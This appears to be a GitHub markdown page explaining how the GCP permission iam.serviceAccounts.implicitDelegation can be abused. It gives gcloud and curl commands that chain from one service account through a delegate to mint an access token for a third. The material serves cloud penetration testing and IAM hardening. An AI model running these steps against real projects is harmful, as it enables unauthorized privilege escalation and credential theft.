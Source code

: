 # iam.serviceAccounts.implicitDelegation IAM Permission abuse

## Description

### Implicit delegation allows one user or service account to perform actions on behalf of another user or service account without needing explicit consent for each action. This capability is often used in scenarios where an application needs access to GCP resources on behalf another identity. Such resources could by anything, from Cloud Storage buckets to Compute Engine instances (VMs).

## Use case scenario:

### SV1 can use the SV2 account that is assigned a role and has iam.serviceAccounts.implicitDelegation permission enabled and SV3 account is assigned the iam.serviceAccounts.getAccessToken Permission.

## Steps

#### 1) Let's assume that we find the accounts with the above permissions in our use case scenario

    gcloud iam service-accounts get-iam-policy ACCOUNT_NAME@PROJECT_NAME.iam.gserviceaccount.com 

#### 2) Prints our current user Access Token. In our use case scenario, the account is SV1

    gcloud auth print-access-token 

### Here we use the implicit delegation privilege between the sv1 and sv2 service accounts to then generate an access token for the sv3 service account. In the command below we authenticate using the srv1 token, specify srv2 as a delegate, and send the request to the API endpoint to generate an API token for srv3.

    curl -X POST \
    "https://iamcredentials.googleapis.com/v1/projects/-/serviceAccounts/SV3@gr-proj-1.iam.gserviceaccount.com:generateAccessToken?access_token=ACCESS_TOKEN_OF_SV1_ACCOUNT" \
    -H "Content-Type: application/json" \
    --data '{
      "delegates": ["projects/-/serviceAccounts/'"SV2@PROJECT_NAME.iam.gserviceaccount.com"'"],
      "scope": ["https://www.googleapis.com/auth/cloud-platform"]
    }'

### Verify that our requested Access Token is valid

    curl https://www.googleapis.com/oauth2/v3/tokeninfo?access_token=SRV3_ACCESS_TOKEN 
